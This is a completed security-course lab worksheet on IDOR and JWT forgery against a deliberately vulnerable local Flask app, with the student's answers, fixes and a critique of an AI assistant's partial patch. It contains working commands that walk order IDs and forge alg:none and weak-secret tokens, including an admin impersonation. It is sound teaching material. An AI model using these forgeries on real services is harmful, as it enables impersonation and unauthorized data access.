






# Worksheet 6 — Authentication, Sessions & Access Control (3 hrs)

> **Course:** Software Security (KOSEN69) · **Week 6**
> **Aligned:** OWASP 2025 **A01 Broken Access Control**, **A07 Authentication Failures** · **CWE-639** (IDOR), **CWE-347** (improper signature verification), **CWE-321** (weak hardcoded key)
> **Signature games:** 🗺️ **IDOR Treasure Hunt** — walk the `oid` numbers to loot orders that aren't yours · 🔏 **JWT Forgery** — mint a token you were never given.

> ⚠️ **Ethics note:** Forging tokens and accessing other users' objects is only legal in this sandbox (`vulnerable_app.py`) and your own Juice Shop. Doing it to a real service is unauthorized access. Keep all activity inside `http://localhost:8080`.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|Athichon kaewla |-----------|------|-------|
|      |           |      |       |


## Part 2 — Lecture Questions

Answer in 2–4 sentences each.

1. Distinguish **authentication** from **authorization**. In `vulnerable_app.py`, `get_order` calls `current_user()` but ignores its result (L63) — which of the two is missing?
Authentication answers "Who are you?", while authorization answers "What are you allowed to do?" In `get_order`, `current_user()` authenticates the requester, but its result is ignored and there is no check that the requested order belongs to that user. Therefore, authorization is missing.

2. What is **IDOR** (CWE-639)? Why is `/api/orders/<oid>` exploitable, and what single check in `solution_app.py` (L64) closes it?
IDOR occurs when a user can change an object identifier, such as an order ID, to access another user's object because the server does not check ownership. `/api/orders/<oid>` is vulnerable because it returns the requested order without verifying its owner; `solution_app.py` closes this at L64 by checking `if order["owner"] != user: return 403`.

3. Explain the **`alg:none`** JWT attack. Why does listing `"none"` in `algorithms=[...]` (L55) let an attacker submit an *unsigned* token?
The `alg:none` attack changes the JWT algorithm to `"none"`, allowing the attacker to create a token with a modified payload and no signature. Because the vulnerable verifier accepts `"none"` in its allowed algorithms, it accepts the unsigned forged token instead of requiring a valid cryptographic signature.

4. Why is the hardcoded HMAC secret `"secret"` (CWE-321) dangerous even if `alg:none` were disabled? How does a strong random secret + pinned algorithm defend the token?
 Even if `alg:none` is disabled, the hardcoded secret `"secret"` is guessable, so an attacker who discovers it can modify a JWT and generate a valid signature for the forged token. A strong random secret makes guessing the signing key impractical, while pinning the algorithm to `HS256` prevents the verifier from accepting attacker-selected algorithms such as `"none"`.

5. What do the JWT claims **`exp`** and **`aud`** add, and why does the secure version reject tokens that lack them?
`exp` gives the token an expiration time, preventing it from remaining valid indefinitely, while `aud` identifies the intended audience for the token. The secure version requires both claims so that tokens without a defined lifetime or intended audience are rejected rather than trusted as valid JWTs.

## Part 3 — Hands-on Lab (150 min)

**Learning goals:** exploit IDOR, forge JWTs two ways (`alg:none` and weak secret), then prove `solution_app.py` enforces ownership and rejects forged tokens. Steps mirror `attack.md`.

**Prerequisites:** Docker + Docker Compose, `curl`, `python3` with `pyjwt`, optionally Burp Suite. Working dir: `labs/week06-authn-authz/`.

### Environment setup

```bash
cd labs/week06-authn-authz
docker compose up            # python:3.12-slim + flask + pyjwt, runs vulnerable_app.py
# vulnerable app -> http://localhost:8080   (service name: authz-lab, port 8080)
```
Optional secondary target / proxy:
```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop       # -> http://localhost:3000
# Burp Suite: put the proxy listener AND the browser proxy on 127.0.0.1:8081.
# NOT 8080 — the lab app already owns host 8080 (docker-compose.yml, "8080:5000").
# Burp's own default listener is 8080, so you must change it: leave it there and
# either the listener refuses to start ("Address already in use") or, if it does
# bind, the browser's proxy address is the target's address and every request
# goes straight to the app instead of through Burp — you intercept nothing.
```

**What to submit per task:** the exact **command/token**, a **screenshot** of the JSON response, and a **2–3 sentence mitigation**.

---

**Task 0 — Onboarding (5 min).** Get alice's token (from `attack.md`):
```bash
TOKEN=$(curl -s -X POST http://localhost:8080/login \
  -H 'Content-Type: application/json' \
  -d '{"user":"alice","pw":"alicepw"}' | python3 -c 'import sys,json;print(json.load(sys.stdin)["token"])')
echo "$TOKEN"
```
Confirm `/api/orders/1` returns alice's Laptop order. *Deliverable: screenshot of the token + order 1.*



**Task 1 — IDOR Treasure Hunt (30 min) 🗺️.**
- *Goal:* read **bob's** order with **alice's** token.
- *Steps:*
  ```bash
  curl -s http://localhost:8080/api/orders/1 -H "Authorization: Bearer $TOKEN"   # yours
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $TOKEN"   # bob's — leaks!
  ```
- *Deliverable:* both responses + screenshot of bob's `Phone` order + why the missing ownership check (CWE-639) is the root cause.

```sim
jwt-forge
```

This vulnerability arises because the server authenticates the user but fails to verify whether the requested order actually belongs to that user. This allows Alice to change the order ID from 1 to 2 and access Bob's data using her own token. The preventive measure is to verify on the server side that `order["owner"]` matches the authenticated user and to reject the request with a 403 status if they do not match.

**Task 2 — JWT Forgery via alg:none (30 min) 🔏.**
- *Goal:* impersonate bob with an **unsigned** token (no secret needed).
- *Steps:*
  ```bash
  FORGED=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, key="", algorithm="none"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED"
  ```
- *Deliverable:* the forged token + screenshot of the accepted response + explanation of the `none` flaw (CWE-347).

This vulnerability arises because the server trusts the `alg` value specified by the attacker in the token; when set to `"none"`, signature verification is disabled (via `verify_signature=False`), allowing the acceptance of unsigned, forged tokens—a flaw classified as CWE-347. To prevent this, the server should explicitly specify `algorithms=["HS256"]` and always enforce signature verification, ensuring that the value within the token cannot override this check.

**Task 3 — JWT Forgery via weak secret (30 min) 🔏.**
- *Goal:* sign a *valid* HS256 token because the secret is the guessable string `secret` (CWE-321).
- *Steps:*
  ```bash
  FORGED2=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, "secret", algorithm="HS256"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED2"
  ```
- *Note:* recent PyJWT prints an `InsecureKeyLengthWarning` to **stderr** because `"secret"` is only 6 bytes — that is expected, the token still mints and is accepted.
- *Deliverable:* token + screenshot + 2–3 sentences on why secret strength + key management matter.


If the secret is weak or easily guessable—such as `"secret"`—an attacker could use the same key to sign a forged JWT that the server would accept. Therefore, you should use a sufficiently long, randomly generated secret, store it outside the source code, and restrict access to it. If the key is compromised, it must be rotated, and tokens signed with the old key must be invalidated.


**Task 4 — Privilege escalation to admin via a forged token (25 min) 🔏.**
- *Goal:* read the admin-only flag at `/api/admin` — a page **IDOR cannot reach**: there is no object id to walk, and there is no `admin` account you could log in as (`USERS` has only alice and bob). The only way in is to forge your identity.
- *Steps:* forge a token claiming `sub=admin` (either technique from Task 2/3 works — `alg:none` or the weak `"secret"`), then call `/api/admin`:
  ```bash
  FORGED=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "admin"}, key="", algorithm="none"))
  PY
  )
  curl -s http://localhost:8080/api/admin -H "Authorization: Bearer $FORGED"
  ```
  You should get `FLAG{...}`. Then confirm alice's **real** token gets `403 forbidden` on the same endpoint — proof the server's role check (`if user != "admin"`) is fine; the break is purely that authentication accepted a forged identity.
- *Deliverable:* the forged token + screenshot of the flag + the `403` for alice's real token, and 2–3 sentences: why IDOR can't reach this (horizontal access vs. **vertical** privilege escalation), and why the app's own `if user != "admin"` check didn't save it.

The IDOR in this lab allows Alice to read Bob's orders—a form of horizontal access—but does not change her identity to that of an administrator. Accessing `/api/admin` requires impersonating an administrator, constituting vertical privilege escalation; furthermore, this endpoint lacks an order ID to manipulate. The condition `if user != "admin"` is ineffective because `current_user()` accepts a forged token and returns `"admin"`, allowing the request to pass even though the requester is not actually an administrator.

**Task 5 — Defend / fix it (30 min) 🛡️.**
- *Goal:* prove `solution_app.py` blocks Tasks 1–4.
- *Steps:* stop the vulnerable container (`Ctrl-C`), then:
  ```bash
  docker compose run --rm --service-ports authz-lab bash -c "pip install --no-cache-dir flask pyjwt && python solution_app.py"
  ```
  Re-run: get a fresh alice token, then re-fire each attack. Expected: `/api/orders/2` with alice's token → **403 forbidden** (ownership check, L64); the `alg:none` token → **401 invalid token** (algorithm pinned to HS256, L50); the `"secret"` token → **401** (strong random secret + required `aud`/`exp`, L10/40). For Task 4, `/api/admin` with a forged `sub=admin` token → **401** — the *same* `current_user()` fix (L50) rejects the forgery before the role check runs, so one fix closes every endpoint; alice's real token still gets **403** there (she isn't admin).
- *Deliverable:* screenshots of the 403 and the 401s (orders **and** `/api/admin`) + name the fix line for each.

Fix line for each attack (`solution_app.py`):
- IDOR — alice → order 2 → 403:L64 `if order["owner"] != user: return 403` — a deny-by-default ownership check on every object access.
- `alg:none` forgery → 401:L50 `jwt.decode(token, SECRET, algorithms=["HS256"], ...)` — the algorithm is pinned to HS256, so `"none"` is no longer accepted and the unsigned token is rejected.
- weak-secret forgery → 401:L10`SECRET = os.environ.get("JWT_SECRET") or os.urandom(32).hex()` (strong random secret) + L50 `options={"require": ["exp", "aud"]}` — the `"secret"`-signed token fails signature verification and also lacks the required `exp`/`aud`.
- forged `sub=admin` → /api/admin → 401:L50 — the same `current_user()` fix rejects the forged token before the role check runs.
- alice's real token → /api/admin → 403:L80 `if user != "admin"` — the role check was always correct; it now runs only on genuinely authenticated identities.

The key fix is at `current_user()` (L50): one change closes `alg:none`, the weak secret, and the admin forgery for every endpoint at once, while **L64** closes IDOR as a separate authorization gate.

## Part 4 — Reflection

1. **CWE/OWASP mapping:** map IDOR → **CWE-639 / A01**, the JWT forgeries → **CWE-347 & CWE-321 / A07**.
   - **IDOR → CWE-639 → OWASP A01 (Broken Access Control):** direct access to a resource through an object reference without a server-side ownership check; it is ranked #1 in OWASP 2025 because access-control flaws are the most common.
   - **alg:none → CWE-347 (Improper Verification of Cryptographic Signature) → OWASP A07 (Authentication Failures):** the system skips signature verification when `alg` is set to `"none"`, so anyone can modify the payload or impersonate another identity and pass through.
   - **weak secret → CWE-321 (Use of Hard-coded Cryptographic Key) → OWASP A07 (Authentication Failures):** a guessable secret key (e.g. `"secret"`) is hard-coded in the source, so an attacker can re-sign or forge their own token.
2. **Real breach:** the **2022 Optus breach** exposed millions of customer records via an exposed/poorly-authorized API endpoint where identifiers could be enumerated — a textbook broken-access-control / IDOR-style failure. In 3–4 sentences connect it to Tasks 1 and 4 of this lab. *(Alternative: the Peloton API IDOR disclosure.)*
   - **Connection to the lab:** the Optus case mirrors Task 1 (IDOR / CWE-639) — the attacker incremented enumerable IDs to pull other customers' records that were not their own, because the API lacked an ownership check on the data. It also mirrors Task 4 as a Broken Access Control failure, but seen in a real system with an impact reaching millions of victims.
   - **Conclusion:** if Optus had enforced an ownership check (like `L64: if order["owner"] != user: return 403` in `solution_app.py`), then even with a public API or enumerable IDs, every request trying to read someone else's data would be denied immediately with HTTP 403 (Forbidden), making the extraction of 9.8 million records impossible.
3. **Best mitigation:** between deny-by-default ownership checks, pinning the JWT algorithm, and a strong managed secret, which control protects the most attack surface here, and why is server-side authorization non-negotiable?
   - **Choice and reasoning:** I choose (a) the ownership check (deny-by-default) as the most important and broadest control, because it covers the widest attack surface — every endpoint that touches a resource directly (aligned with OWASP A01) — whereas pinning the algorithm (HS256) and a strong secret only fix Gate 1 (Authentication).
   - **Why server-side authorization is non-negotiable:** the client cannot be trusted because it can modify the header, token, or object ID at will — as proven in Task 1, where even a valid token that authenticates successfully still lets the user reach Bob's data if the server-side ownership check is missing.

## Grading rubric (100)

| Criterion | Points |
|-----------|-------:|
| Part 2 — Lecture questions (conceptual accuracy) | 20 |
| Part 3 — Exploitation + evidence (payloads/tokens + screenshots, Tasks 1–4) | 40 |
| Part 3 — Defense (Task 5: fixes proven, lines cited) | 25 |
| Part 4 — Reflection (CWE/OWASP mapping, breach, mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** ____________________
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?

     **Two-gate mechanism:** **Gate 1 (Authentication – Who are you?)** broke because the server accepted forged tokens via `alg:none` (CWE-347) and verified signatures with a weak, guessable secret key (CWE-321), so forged tokens passed verification entirely. **Gate 2 (Authorization – May you touch THIS?)** was missing entirely (CWE-639, IDOR) because a function like `get_order(oid)` only takes the identity from `current_user()` to authenticate, but never checks whether the resource (`ORDERS[oid]`) actually belongs to the caller.
  2. **Why does your fix actually stop it** — and what could still break it?

     **Why the fix stops it:** the fix works at two levels — Gate 1 enforces `algorithms=["HS256"]`, uses a random secret loaded from the environment, and requires the `exp` and `aud` claims; Gate 2 enforces deny-by-default by adding `if order["owner"] != user: return 403` at every point that reads an object. **What could still break it:** the system is still at risk if (1) `JWT_SECRET` leaks from the server, (2) a new API endpoint is added later and the developer forgets the ownership check, or (3) the token lifetime (`exp`) is set too long, so a stolen token can keep being used to attack.

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.
2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).
3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

**1. AI's answer (an AI assistant was asked to fix the JWT + IDOR bug):**

```python
SECRET = "secret"

def current_user():
    auth = request.headers.get("Authorization", "")
    token = auth.replace("Bearer ", "")
    data = jwt.decode(token, SECRET, algorithms=["HS256"])   # pin HS256 so alg:none is rejected
    return data.get("sub")

@app.route("/api/orders/<int:oid>")
def get_order(oid):
    user = current_user()
    order = ORDERS.get(oid)
    if order["owner"] != user:        # ownership check
        return jsonify(error="forbidden"), 403
    return jsonify(order)
```

**2. What's wrong / risky (my critique):**
- `SECRET = "secret"` — the AI did **not** fix the weak, hard-coded secret (CWE-321). An attacker can still guess it and re-sign a JWT with a modified payload that the server accepts; the secure version must load a strong random secret from the environment.
- `jwt.decode(token, SECRET, algorithms=["HS256"])` — it never enforces the `exp` and `aud` claims. The secure version uses `options={"require": ["exp", "aud"]}` and `audience=AUD`, so expired or wrong-audience tokens are rejected; this fix still accepts them (replay risk).
- `if order["owner"] != user` runs without first checking that `oid` exists. For `/api/orders/999`, `ORDERS.get(oid)` returns `None`, so `order["owner"]` raises an exception → **HTTP 500 (crash)**, not a handled 404.
- `jwt.decode(...)` has no `try/except`. A malformed or forged token raises `InvalidTokenError`, which is unhandled → **HTTP 500** instead of a clean 401.

**3. Correct, verified version + why the AI was insufficient:** the real `solution_app.py` adds the three things this fix lacks — a strong random secret from the environment (L10), `require` + `audience` on `decode()` (L50), and a `try/except jwt.InvalidTokenError → 401` together with a not-found check before the ownership test (L56–65). The AI fixed only the two most obvious issues (pinning the algorithm to stop `alg:none`, and adding an ownership check to stop IDOR) but left the weak hard-coded secret so tokens can still be forged, and never required `exp`/`aud` so old or misdirected tokens still pass. It also handles errors poorly — returning HTTP 500 on a missing order or a bad token instead of 404/401 — which leaks stack traces and is not production-safe.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.

The `get_order` endpoint takes an order number from the URL and returns the data immediately. Although the user is authenticated, the system never checks whether that order belongs to the requester, so any ordinary user can change the ID to read someone else's data directly.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.

**Final prompt:** Refactor this Python Flask auth logic: (1) Fix JWT verification in `current_user()` using PyJWT to strictly enforce `algorithms=['HS256']`, load the key from an environment variable, and require the `exp` and `aud` claims. (2) Fix the IDOR on `/api/orders/<oid>` by adding a server-side ownership check (`order['owner'] != user`) that returns HTTP 403 by default when the caller is not the owner.

**Verified result:** Running this prompt on an AI assistant produced a fix that implements all four intended controls — `algorithms=["HS256"]` (rejects `alg:none`), `SECRET` loaded from `os.environ`, `options={"require": ["exp", "aud"]}` with an `audience`, and a deny-by-default ownership check returning `403` — i.e. the same protections as `solution_app.py`. The Task 5 evidence (`image-5.png`) confirms those exact protections defeat every attack: `/api/orders/2` with alice's valid token → **403**, the `alg:none` and weak-`"secret"` forged tokens → **401**, and the forged `sub=admin` token on `/api/admin` → **401**. The original exploits therefore no longer succeed, which verifies the prompt.
*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*
